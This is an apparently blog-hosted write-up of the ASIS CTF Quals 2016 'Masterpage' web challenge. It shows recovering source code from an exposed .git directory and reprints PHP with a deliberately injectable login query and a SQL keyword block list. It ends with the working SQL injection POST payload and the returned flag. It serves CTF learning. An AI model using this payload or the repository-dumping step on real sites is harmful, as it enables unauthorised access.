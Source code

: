 ```yaml
---
layout: post
title: ASIS CTF Quals 2016 Masterpage Writeup
tags: CTF, ASIS, SQLi
---
```


![][img1]

This challenge presented a web page with a form upon dry submission of which it would return text "Blocked". Good start. Quickly poking around I discovered a Git directory (just a second step after checking *robots.txt*, you know) under `/.git` and retrieved the Git repository with [DVCS Ripper](https://github.com/kost/dvcs-ripper). 

Found only *index.php* in the master branch under current revision. Additionally, checked out the HEAD~3 revision to get the *query.php* and *config.php* with the following contents respectively:

**index.php:**

~~~ php
<?php
    error_reporting(7);

    /* create table admin(id varchar(255), pw varchar(255), ip varchar(255)); */
    /* get flag */
    require('config.php');
    global $mysql;

    $id = $mysql->filter($_POST['user'], "auth");
    $pw = $mysql->filter($_POST['pass'], "pass");
    $ip = $mysql->filter($_SERVER['REMOTE_ADDR'], "hash");

    /* resolve ip addr. */
    $dns = dns_get_record(gethostbyaddr($ip));
    $ip = ($dns) ? print_r($dns, true) : ($ip);

    /* mysql filtration */
    $filter = "_|information|schema|con|\_|ha|b|x|f|@|'|\"|`|admin|cas|txt|sleep|benchmark|procedure|\^";
    foreach($_POST as $_VAR){
        if(preg_match("/{$filter}/i", $_VAR) || preg_match("/{$filter}/i", $ip))
        {
            exit("Blocked!");
        }
    }
    if(strlen($id.$pw.$ip) >= 200 || substr_count("(", $id.$pw.$ip) > 2)
    {
        exit("Too Long!");
    }

    /* admin auth */
    $query = "SELECT id, pw FROM admin WHERE id='{$id}' AND pw='{$pw}' AND ip='{$ip}';";
    $result = $mysql->query($query, 1);
    if($result['id'] === "admin" && $result['pw'] === $_POST['pw'])
    {
        echo $flag."<HR>";
    }

    echo "<HR>";
    echo "<h1>Please login.</h1><form method=POST><input type=text placeholder=username name=user>&nbsp;<input type=password placeholder=password name=pass><input type=submit name=submit>";
    echo "<HR>";

    //highlight_file(__FILE__);
?>
~~~

**query.php:**

~~~ php
<?php
    error_reporting(0);
    if(__CHECK_INTERNAL__ == False) die();
    // SQL Query Selector for PHP5/PHP7, Who cares if it's vulnerable? \o/
    class Query{
        private $conn, $mysqli;
        function check(){
            return ($this->conn) ? True : False;
        }
        function connect($host, $username, $password, $db=""){
            // @return //
            if($this->mysqli){
                $this->conn = mysqli_connect($host, $username, $password, $db);
                if(!$this->conn) return mysqli_connect_errno();
            }else{
                $this->conn = mysql_connect($host, $username, $password);
                mysql_select_db($db, $this->conn);
                if(!$this->conn) return mysql_error();
            }
        }
        function query($query, $result=0){
            // $result: 0 -> no return, 1 -> return_assoc, 2 -> return_array
            if(!$this->conn) return false;
            if($this->mysqli){
                $_query = mysqli_query($this->conn, $query);
                if(!$_query) return false;
                switch($result){
                    case 2:
                        $_result = Array();
                        while($_result_temp = mysqli_fetch_array($_query)){
                            $_result[] = $_result_temp;
                        }
                        return $_result;
                    case 1:
                        return mysqli_fetch_assoc($_query);
                    default:
                        return true;
                }
            }else{
                $_query = mysql_query($query, $this->conn);
                if(!$_query) return false;
                switch($result){
                    case 2:
                        $_result = Array();
                        while($_result_temp = mysql_fetch_array($_query, MYSQL_ASSOC)){
                            $_result[] = $_result_temp;
                        }
                        return $_result;
                    case 1:
                        return mysql_fetch_assoc($_query);
                    default:
                        return true;
                }
            }
        }
        function filter($str, $type='sql'){
            switch($type){
                case "url":
                    return preg_replace("/[^a-zA-Z0-9-_&\/]/", "", $str);
                case "sql":
                    if($this->conn){
                        $_filter = preg_replace("/[^a-zA-Z0-9-_!@#$.%^+&*(){}]/", "", $str);
                        if($this->mysqli){
                            return mysqli_real_escape_string($this->conn, $_filter);
                        }else{
                            return mysql_real_escape_string($_filter, $this->conn);
                        }
                    }
                case "memo":
                    if($this->conn){
                        $_filter = htmlspecialchars(preg_replace("/[^a-zA-Z0-9-_:+!@#$.%^&*(){}:\/.\ <>]/", "", $str));
                        if($this->mysqli){
                            return mysqli_real_escape_string($this->conn, $_filter);
                        }else{
                            return mysql_real_escape_string($_filter, $this->conn);
                        }
                    }
                case "auth":
                    return preg_replace("/[^a-zA-Z0-9-_!@#$.%^&*()\\]/", "", $str);
            }
            return $str;
        }
        function __construct(){
            if(function_exists("mysqli_connect")){
                $this->mysqli = true;
            }else{
                $this->mysqli = false;
            }
        }
        function __destruct(){
            if($this->conn){
                if($this->mysqli){
                    mysqli_close($this->conn);
                }else{
                    mysql_close($this->conn);
                }
            }
        }
    }
?>
~~~


**config.php:**

~~~ php

<?php

require("query.php");

$mysql = new Query();
$mysql->connect("localhost", "admin", "admin", "admin");
if($mysql->check() === false) die("Server dead, contact acid.");

$flag = "..";

?>

~~~

After static analysis of the code above I had two spots in mind that I could run SQLi through:

* TXT record on my domain with SQLi inside so that the SQL query would look like `SELECT id, pw FROM admin WHERE id='zzz' AND pw='zzz' AND ip='TXT record stuff' union select 'admin', NULL or 'aaa'=' TXT record continued';`
* The check in the **index.php** file is seemingly erroneous as it checks for `$_POST['pw']` rather than `$pw` logically: ``` if($result['id'] === "admin" && $result['pw'] === $_POST['pw']) ```

I didn't want to mess with my domain and didn't actually think it would be quick for me. Luckily, an unexpected update to the challenge made things super-easy: copied the Git repository over again to find out that the filter was alleviated to allow single quotes:

~~~
$filter = "_|information|schema|con|\_|ha|b|x|f|@|\"|`|admin|cas|txt|sleep|benchmark|procedure|\^";
~~~

In the light of this change things became elementary. Final payload:

~~~ http

POST / HTTP/1.0
Host: masterpage.asis-ctf.ir
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=dude&pass=' union select 'adm'+'in','pass' -- -&pw=pass
~~~

Response:

~~~
...

ASIS{6dcb302a3ad0501bcc3c2880b9aec3fc}<HR><HR><h1>Please login.</h1><form method=POST><input type=text placeholder=username name=user>&nbsp;<input type=password placeholder=password name=pass><input type=submit name=submit><HR>
~~~

[img1]: http://i.imgur.com/7CbwwMK.png
